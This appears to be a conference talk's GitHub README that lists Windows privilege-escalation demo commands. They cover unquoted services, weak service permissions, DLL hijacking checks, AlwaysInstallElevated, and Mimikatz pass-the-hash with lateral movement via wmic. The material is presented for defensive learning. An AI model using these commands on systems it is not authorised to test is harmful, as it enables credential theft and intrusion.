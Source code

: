 # PrivilegeEscalation
Demos' commands


PRIVILEGE ESCALATION in windows

CyberArk Impact 2018

@Doronaim



Intro:

In this document you'll be able to find all scripts and code I ran in the session. I hope you'll find these tools helpful in protecting you organization from within.

Remember : Assume breach is the right state of mind.



Tools:

1. Windows Internals - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
2. Process Hacker - https://wj32.org/processhacker/
3. Mimikatz - https://github.com/gentilkiwi/mimikatz/releases



Part I - Local Privilege Escalation:

1. Token Manipulation - Flagging up the "SeDebug" privilege.
   In mimikatz : 
       privilege::debug
2. Unquoted Services
   In CMD:
       wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
3. Insecure Permissions
   Check for weak services that allow normal user groups to modify their configuration:

       accesschk.exe -uwcqv "Everyone" *
       accesschk.exe -uwcqv "Authenticated Users" *
       accesschk.exe -uwcqv "Users" *
       accesschk.exe -uwcqv "<GroupName>" *

   Change service path in CMD:

       SC config <serviceName> binPath= “<command>”

1. DLL Hijacking
   Look for folders with insecure permissions:
   (M) - Modify (F) - Full Access 
       icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr “BUILTIN\Users"
        
       icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
2. EXTRA
   Check if installers are auto-elevated:
   1.     reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated



Remote Privilege Escalation (RCE)

1. Pass the hash using Mimikatz:
       sekurlsa::pth /user:Genie /domain:harame.local /ntlm:64f12cddaa88057e06a81b54e73b949b
2. Access network resouce for having TGT from the DC
       Dir \\DC\C$
3. Use the TGT to connect Jafar's machine -  and run a code (we used notepad as PoC)
       wmic /node:Jafar process call create "notepad.exe"



[Sploitspern]: https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/
[Pentest.blog]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
